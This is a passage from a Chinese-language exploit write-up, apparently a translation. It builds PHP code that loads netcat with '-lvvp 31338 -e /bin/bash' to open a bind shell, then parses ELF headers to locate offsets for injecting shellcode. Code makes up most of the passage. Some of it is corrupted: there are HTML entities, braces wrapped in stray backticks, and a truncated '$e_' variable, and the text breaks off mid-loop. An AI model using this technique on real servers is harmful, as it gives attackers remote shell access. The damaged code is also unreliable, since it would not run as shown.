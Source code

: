 我们使用了这种技巧来重写代码中涉及到系统调用的一些函数。

我们以shellcode的形式将`syscall`传递给php解释器，使用一系列命令来传递系统调用。

接下来我们一步一步实现PHP代码，这个过程中涉及到一些小技巧。

首先，我们设定所需的一些参数：

```
$elf = file_get_contents("/bin/nc.traditional"); // elf_payload
    $args = "test -lvvp 31338 -e /bin/bash";  // argv0 argv1 argv2 ...
```

然后指定偏移地址：内存中的高位（higher）及低位（lower）值，以便后面注入shellcode：

```
function packlli($value) `{`
            $higher = ($value &amp; 0xffffffff00000000) &gt;&gt; 32;
            $lower = $value &amp; 0x00000000ffffffff;
            return pack('V2', $lower, $higher);
    `}`
```

然后构造用来“unpack”二进制文件的一个函数，先执行[反转](http://www.php.su/strrev)操作，然后依次执行[bin2hex()](http://php.net/manual/ru/function.bin2hex.php)、[hexdex()](http://php.net/manual/ru/function.hexdec.php)，将二进制数值转化为十进制数值，为后面注入内存做准备：

```
function unp($value) `{`
        return hexdec(bin2hex(strrev($value)));
    `}`
```

然后解析ELF文件，获取偏移值：

```
function parseelf($bin_ver, $rela = false) `{`
    $bin = file_get_contents($bin_ver);

    $e_shoff = unp(substr($bin, 0x28, 8));
    $e_shentsize = unp(substr($bin, 0x3a, 2));
    $e_shnum = unp(substr($bin, 0x3c, 2));
    $e_shstrndx = unp(substr($bin, 0x3e, 2));

    for($i = 0; $i &lt; $e_shnum; $i += 1) `{`
        $sh_type = unp(substr($bin, $e_shoff + $i * $e_shentsize + 4, 4));
        if($sh_type == 11) `{` // SHT_DYNSYM
            $dynsym_off = unp(substr($bin, $e_shoff + $i * $e_shentsize + 24, 8));
            $dynsym_size = unp(substr($bin, $e_shoff + $i * $e_shentsize + 32, 8));
            $dynsym_entsize = unp(substr($bin, $e_shoff + $i * $e_shentsize + 56, 8));
        `}`
        elseif(!isset($strtab_off) &amp;&amp; $sh_type == 3) `{` // SHT_STRTAB
            $strtab_off = unp(substr($bin, $e_shoff + $i * $e_shentsize + 24, 8));
            $strtab_size = unp(substr($bin, $e_shoff + $i * $e_shentsize + 32, 8));
        `}`
        elseif($rela &amp;&amp; $sh_type == 4) `{` // SHT_RELA
            $relaplt_off = unp(substr($bin, $e_shoff + $i * $e_ + 24, 8));
            $relaplt_size = unp(substr($bin, $e_shoff + $i * $e_shentsize + 32, 8));
            $relaplt_entsize = unp(substr($bin, $e_shoff + $i * $e_shentsize + 56, 8));
        `}`
    `}`

    if($rela) `{`
        for($i = $relaplt_off; $i &lt; $relaplt_off + $relaplt_size; $i += $relaplt_entsize) `{`
            $r_offset = unp(substr($bin, $i, 8));
            $r_info = unp(substr($bin, $i + 8, 8)) &gt;&gt; 32;
            $name_off = unp(substr($bin, $dynsym_off + $r_info * $dynsym_entsize, 4));
            $name = '';
            $j = $strtab_off + $name_off - 1;
```